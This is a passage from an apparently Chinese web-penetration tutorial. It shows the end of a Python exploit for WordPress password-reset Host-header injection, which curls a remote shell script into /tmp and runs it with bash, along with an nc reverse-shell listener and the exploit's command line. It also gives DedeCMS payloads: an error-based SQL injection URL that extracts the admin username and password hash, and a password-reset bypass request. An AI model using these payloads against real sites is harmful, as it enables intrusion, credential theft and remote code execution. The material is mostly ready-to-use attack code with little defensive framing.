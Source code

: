 ```python
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)
session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```

进行 nc 监听

```bash
root@kail:~# nc -v -l 1995
```

执行 exp

```bash
root@kail:~# python3 exploit.py "http://192.168.86.200:8080" "192.168.86.200/shell.sh"
```

## 02-DedeCMS 漏洞

织梦内容管理系统是国内最知名的PHP 开源网站管理系统，以简单、实用和开源而闻名，是使用用户最多的 PHP 类CMS 系统。织梦是基于 PHP+MySQL 技术架构，适用于个人网站或中小型门户网站的构建 。

### 01-DedeCMSV5.6

访问`ip/plus/search.php?keyword as&typeArr [ uNion ]=a`结果若出现`Safe Alert: Request Error step 1`

```
访问ip/plus/search.php?keyword=as&typeArr[111% 3D@`\\'`)+and+(SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(substring((select+CONCAT(0x7c,userid,0x7c,pwd)+%23@__admin`+limit+0,1),1,62)))a+from+information_schema.tables+group+by+a)b)% 23@`\\'`+]=a
```

可以看到EXP 攻击后出现后台管理员账号 admin 信息以及经过 MD5 加密的密文，解密后找到后台地址ip/dede登录

### 02-DedeCMS V57 版本漏洞-前台用户密码重置

点击忘记密码，使用POST方法，数据： `dopost=safequestion&safequestion=0.0&safeanswer=&id=1`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021062917193839.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

重置连接：ip/resetpassword.php?dopost getpasswd&id =1&3JdOa0iv（key 需要通过构造 POST 获取）
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629172003146.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

### 03-DedeCMS V57 版本漏洞-任意修改后台密码

由 admin 用户无法登录，因此无法直接修改密码，任意注册用户，BurpSuit抓包
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629172014798.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

